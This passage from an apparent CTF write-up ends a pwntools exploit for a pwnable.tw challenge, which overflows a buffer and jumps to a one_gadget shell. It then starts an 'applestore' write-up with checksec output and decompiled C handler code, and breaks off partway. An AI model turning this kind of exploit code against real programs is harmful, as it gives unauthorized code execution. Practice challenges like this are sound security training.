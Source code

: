 ```python 
p.sendlineafter('Give me your description of bullet :',payload)

#power up
p.sendlineafter('Your choice :',"2")
payload='a'
p.sendlineafter('Give me your another description of bullet :',payload)

p.sendlineafter('Your choice :',"2")
payload='\xff'*7+p32(one_gedget)
p.sendlineafter('Give me your another description of bullet :',payload)
p.sendlineafter('Your choice :',"3")

p.interactive()
```

# pwnable.tw-applestore

## checksec

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## IDA

**handler**

```c
unsigned int handler()
{
  char nptr[22]; // [esp+16h] [ebp-22h] BYREF
  unsigned int v2; // [esp+2Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  while ( 1 )
  {
    printf("> ");
    fflush(stdout);
    my_read(nptr, 0x15u);
    switch ( atoi(nptr) )
    {
      case 1:
        list();//列出商品菜单，useless
        break;
      case 2:
        add();//向链表中添加一个商品
        break;
      case 3:
        delete();//从链表中删除一个商品
        break;
      case 4:
        cart();//列出链表中所有的商品
        break;
      case 5:
        checkout();
        break;
      case 6:
        puts("Thank You for Your Purchase!");
```